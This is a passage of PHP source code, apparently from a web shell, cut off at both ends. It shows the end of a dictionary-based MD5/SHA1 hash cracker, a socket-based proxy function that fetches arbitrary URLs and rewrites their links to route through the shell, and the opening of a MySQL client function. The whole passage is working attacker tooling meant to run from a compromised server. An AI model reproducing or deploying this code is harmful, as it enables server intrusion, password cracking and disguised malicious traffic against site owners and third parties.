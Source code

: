 $word=trim(fgets($dictionary)," \n\r");
if ($hash==strtoupper(($type($word)))){echo "The answer is $word&lt;br&gt;";break;}
}
echo "Done!&lt;/font&gt;";
fclose($dictionary);
}
else{
echo "$errorbox Can not open dictionary.$et";
}
}
echo "&lt;center&gt;${t}Hash cracker:&lt;/td&gt;&lt;td bgcolor=\"#333333\"&gt;&lt;/td&gt;&lt;/tr&gt;&lt;form method=\"POST\"&gt;&lt;tr&gt;&lt;td width=\"20%\" bgcolor=\"#666666\"&gt;Dictionary:&lt;/td&gt;&lt;td bgcolor=\"#666666\"&gt;&lt;input type=text name=dictionary size=35&gt;&lt;/td&gt;&lt;/tr&gt;&lt;tr&gt;&lt;td width=\"20%\" bgcolor=\"#808080\"&gt;Hash:&lt;/td&gt;&lt;td bgcolor=\"#808080\"&gt;&lt;input type=text name=hash size=35&gt;&lt;/td&gt;&lt;/tr&gt;&lt;tr&gt;&lt;td width=\"20%\" bgcolor=\"#666666\"&gt;Type:&lt;/td&gt;&lt;td bgcolor=\"#666666\"&gt;&lt;select name=type&gt;&lt;option selected value=MD5&gt;MD5&lt;/option&gt;&lt;option value=SHA1&gt;SHA1&lt;/option&gt;&lt;/select&gt;&lt;/td&gt;&lt;/tr&gt;&lt;tr&gt;&lt;td width=\"20%\" bgcolor=\"#808080\"&gt;&lt;/td&gt;&lt;td bgcolor=\"#808080\" align=right&gt;$hcwd&lt;input class=buttons type=submit value=Start&gt;&lt;/td&gt;&lt;/tr&gt;&lt;/form&gt;&lt;/table&gt;&lt;/center&gt;";
}
function pr0xy(){
global $errorbox,$et,$footer,$hcwd;
echo "&lt;table border=0 cellpadding=0 cellspacing=0 style=\"border-collapse: collapse\" bordercolor=\"#282828\" bgcolor=\"#333333\" width=\"100%\"&gt;&lt;form method=\"POST\"&gt;&lt;tr&gt;&lt;td width=\"20%\"&gt;&lt;b&gt;Navigator: &lt;/b&gt;&lt;input type=text name=urL size=140 value=\""; if(!!empty($_REQUEST['urL'])) echo "http://www.edpsciences.org/htbin/ipaddress"; else echo htmlspecialchars($_REQUEST['urL']);echo "\"&gt;$hcwd&lt;input type=submit class=buttons value=Go&gt;&lt;/td&gt;&lt;/tr&gt;&lt;/form&gt;&lt;/table&gt;";
if (!empty($_REQUEST['urL'])){
$dir="";
$u=parse_url($_REQUEST['urL']);
$host=$u['host'];$file=(!empty($u['path']))?$u['path']:'/';
if(substr_count($file,'/')&gt;1)$dir=substr($file,0,(strpos($file,'/')));
$url=@fsockopen($host, 80, $errno, $errstr, 12);
if(!$url)die("&lt;br&gt;$errorbox Can not connect to host!$et$footer");
fputs($url, "GET /$file HTTP/1.0\r\nAccept-Encoding: text\r\nHost: $host\r\nReferer: $host\r\nUser-Agent: Mozilla/5.0 (compatible; Konqueror/3.1; FreeBSD)\r\n\r\n");
while(!feof($url)){
$con = fgets($url);
$con = str_replace("href=mailto","HrEf=mailto",$con);
$con = str_replace("HREF=mailto","HrEf=mailto",$con);
$con = str_replace("href=\"mailto","HrEf=\"mailto",$con);
$con = str_replace("HREF=\"mailto","HrEf=\"mailto",$con);
$con = str_replace("href=\'mailto","HrEf=\"mailto",$con);
$con = str_replace("HREF=\'mailto","HrEf=\"mailto",$con);
$con = str_replace("href=\"http","HrEf=\"".hlinK("seC=px&urL=http"),$con);
$con = str_replace("HREF=\"http","HrEf=\"".hlinK("seC=px&urL=http"),$con);
$con = str_replace("href=\'http","HrEf=\"".hlinK("seC=px&urL=http"),$con);
$con = str_replace("HREF=\'http","HrEf=\"".hlinK("seC=px&urL=http"),$con);
$con = str_replace("href=http","HrEf=".hlinK("seC=px&urL=http"),$con);
$con = str_replace("HREF=http","HrEf=".hlinK("seC=px&urL=http"),$con);
$con = str_replace("href=\"","HrEf=\"".hlinK("seC=px&urL=http://$host/$dir/"),$con);
$con = str_replace("HREF=\"","HrEf=\"".hlinK("seC=px&urL=http://$host/$dir/"),$con);
$con = str_replace("href=\"","HrEf=\'".hlinK("seC=px&urL=http://$host/$dir/"),$con);
$con = str_replace("HREF=\"","HrEf=\'".hlinK("seC=px&urL=http://$host/$dir/"),$con);
$con = str_replace("href=","HrEf=".hlinK("seC=px&urL=http://$host/$dir/"),$con);
$con = str_replace("HREF=","HrEf=".hlinK("seC=px&urL=http://$host/$dir/"),$con);
echo $con;
}
fclose($url);
}
}
function mysqlclienT(){